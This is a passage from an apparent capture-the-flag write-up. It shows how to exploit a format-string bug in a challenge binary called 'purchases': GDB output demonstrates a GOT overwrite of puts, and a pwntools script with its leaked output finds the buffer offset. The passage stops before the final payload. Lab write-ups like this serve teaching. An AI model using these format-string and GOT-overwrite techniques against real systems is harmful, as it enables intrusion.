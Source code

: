 ```
	process 11726 is executing new program: /bin/dash
	Warning:
	Cannot insert breakpoint 1.
	Cannot access memory at address 0x401326
```
#### To talk you through what just happened, first we disassembled the puts function and saw that the first thing it does is to jump to it's GOT entry address, `0x404018`. Now that we have the GOT address for puts, we printed out the address for flag, set a breakpoint before our puts call. After we hit the breakpoint, we set the contents of the GOT address to flag's address, then we validate if we have successfully overwriten the value. Continuing the process, the binary executes /bin/dash and proceeds to call the flag function.

### Exploitation
#### Since we have confirmed that our plan works theoretically, it's time to craft the exploit. For this to work, we need to find out which offset we can find our buffer. We can automate this using a short script:
```python
from pwn import *

#: Connect to challenge server
p = process('./purchases')
print(p.recv())

#: Exploit code
exploit = 'AAAABBBB' + ' %p ' * 10

#: Send payload
p.sendline(exploit)
print(p.recv())
```
#### Running the script, we get this result:
```
What item would you like to purchase? 
You don't have any money to buy AAAABBBB 0x7ffd0237f380  0x7f5f5d2d08c0  (nil)  0x20  0x7f5f5d4d74c0  0xb  0x3e85d2d6660  0x4242424241414141  0x2070252020702520  0x2070252020702520 s. You're wasting your time! We don't even sell AAAABBBB 0x7ffd0237f380  0x7f5f5d2d08c0  (nil)  0x30  (nil)  0xb  0x3e85d2d6660  0x4242424241414141  0x2070252020702520  0x2070252020702520 s. Leave this place and buy AAAABBBB 0x7ffd0237f380  0x7f5f5d2d08c0  (nil)  0x1c  (nil)  0xb  0x3e85d2d6660  0x4242424241414141  0x2070252020702520  0x2070252020702520  somewhere else. Get out!
```
#### The input we provided has hex values of 0x41 and 0x42, and searching them in the output, we see that our buffer can be found at offset 8. Modifying the script we used earlier, we can verify this by only printing out the 8th offset from the leak. 
```python
#: Exploit code
exploit = 'AAAABBBB' + ' %8$p'
```
#### Which results to:
```
You don't have any money to buy AAAABBBB 0x4242424241414141s. You're wasting your time! We don't even sell AAAABBBB 0x4242424241414141s. Leave this place and buy AAAABBBB 0x4242424241414141 somewhere else. Get out!
```
#### Since we have our offset, let's modify our code and then replace the junk we input into the address we want to overwrite - puts GOT. Afterwhich we run it to see the results.